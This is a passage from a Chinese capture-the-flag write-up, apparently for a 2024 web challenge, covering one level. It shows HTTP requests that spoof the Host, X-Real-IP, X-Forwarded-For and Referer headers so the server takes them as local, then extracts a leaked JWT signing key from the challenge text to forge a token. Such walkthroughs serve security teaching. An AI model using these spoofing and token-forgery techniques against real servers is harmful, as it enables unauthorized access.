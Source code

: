 ## 第六关

本题提示内容指出了 `localhost`，意在表明需要让服务器认为这是一个来自本地的请求。可以通过设置 `Host` `X-Real-IP` `X-Forwarded-For` `Referer` 等标头欺骗服务器。

以下任意一种请求都是可以的。

::: code-group

```HTTP [Referer]
GET /?ask=miao HTTP/1.1
Host: localhost
Referer: http://localhost
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsZXZlbCI6Nn0.SlKAeN5yYDF9YaHrUMifhYSrilyjPwd2_Yrywq9ff1Y
```

```HTTP [X-Real-IP]
GET /?ask=miao HTTP/1.1
Host: 8.147.132.32:36002
X-Real-IP: 127.0.0.1
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsZXZlbCI6Nn0.SlKAeN5yYDF9YaHrUMifhYSrilyjPwd2_Yrywq9ff1Y
```

```HTTP [X-Forwarded-For]
GET /?ask=miao HTTP/1.1
Host: 8.147.132.32:36002
X-Forwarded-For: 127.0.0.1
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJsZXZlbCI6Nn0.SlKAeN5yYDF9YaHrUMifhYSrilyjPwd2_Yrywq9ff1Y
```

:::

:::warning 注意
如果修改 `Host`，你需要确保你的 HTTP 报文是发向靶机的。一些工具会默认自动采用 `Host` 作为远程地址，或者没有自定义远程地址的功能。
:::

随后提示给出了一段话：

<blockquote style="text-align: center;">

PangBai 以一种难以形容的表情望着你——激动的、怀念的，却带着些不安与惊恐，像落单后归家的雏鸟，又宛若雷暴中遇难的船员。

你似乎无法抵御这种感觉的萦绕，像是一瞬间被推入到无法言喻的深渊。尽管你尽力摆脱，但即便今后夜间偶见酣眠，这一瞬间塑成的梦魇也成为了美梦的常客。

「像■■■■验体■■不可能■■■■ JWT 这种■■ Pe2K7kxo8NMIkaeN ■■■密钥，除非■■■■■走，难道■■■■■■吗？！」

「......」
</blockquote>

其中提到了 JWT 和 `Pe2K7kxo8NMIkaeN`，这个数字和字母组成内容推测应当是 JWT 的密钥。JWT 是一个轻量级的认证规范，允许在用户和服务器之间传递安全可靠的信息，但这是基于签名密钥没有泄露的情况下。可以通过 [JWT.IO](https://jwt.io) 网站进行在线签名和验证（JWT 并不对数据进行加密，而仅仅是签名，不同的数据对应的羡签名不一样，因此在没有密钥的情况下，你可以查看里面的数据，但修改它则会导致服务器验签失败，从而拒绝你的进一步请求）。

将我们当前的 Cookie 粘贴入网站：

![JWT.IO 网站 1](/assets/images/wp/2024/week1/pangbai1_5.png)
